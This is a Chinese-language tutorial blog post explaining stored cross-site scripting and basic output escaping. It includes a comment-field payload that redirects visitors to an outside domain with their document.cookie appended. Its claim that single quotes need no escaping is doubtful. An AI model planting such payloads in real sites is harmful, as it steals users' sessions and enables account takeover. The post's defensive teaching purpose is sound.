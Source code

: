 ```yaml
---
title: 什么是 XSS 攻击
date: 2017-07-15 18:03:31
tags:
  - xss
  - security
---
```


XSS 的全称是 Cross Site Scripting，为了避免同 CSS 的缩写重复所以用了 XSS 代替，相比于上一篇介绍的 CSRF 攻击，XSS 攻击的威力更大，它可以直接在用户当前正在浏览的页面运行自定义的 javascript 脚本，操作得当的话可以污染浏览这个页面的所有用户。

XSS 最主要的方式是通过服务端没有对用户上传的内容进行 编码/过滤，然后直接返回给客户端并展示在 HTML 上，客户端也直接输出了响应内容没有做过滤，这时内容的上传者就可以发起 XSS 攻击了。原理如下图：

![xss](http://oiw32lugp.qnssl.com/2017-07-15-xss.png)

假设网站有一个评论的功能，评论内容会被上传到服务器并被所有浏览该文章的用户看到，某个用户上传了这样的内容：

```js
<script>location.href="//shijianan.com/?c=" + document.cookie</script>
```

这个评论上传后在客户端被渲染成

```html
<p><script>location.href="//shijianan.com/?c=" + document.cookie</script></p>
```

那么所有浏览这个页面的用户都将被跳往 `shijianan.com` 并且携带上他们当前作用域的 Cookie，如果这个网站不幸通过 Cookie 管理用户登录状态，那么接下来我就可以登录它的账号了，想想也是挺可怕的。

原理说完了，那么我们要如何防范这种攻击呢？相比于 CSRF，XSS 攻击的角度更多，影响更大，攻击者甚至可以再上传图片时在图片 url 中通过提前闭合标签的方式发起攻击。不过正如上文提到的，只有满足服务端不 编码/过滤，客户端也不 编码/过滤 两个条件时才可以实施。

1. 永远不要相信用户的输入
2. 转义 html 标签（客户端）

| 标签名 | 转义 |
|  — | — |
| < | &lt; |
| > | &gt; |
| & | &amp; |
| “ | &quot |

单引号就不需要处理了，因为 html 属性中用到的都是双引号，还有一种高端的通过 ASCII code 发起攻击的方式，看网上的防御方式普遍是转换成 &#<number> 的形式。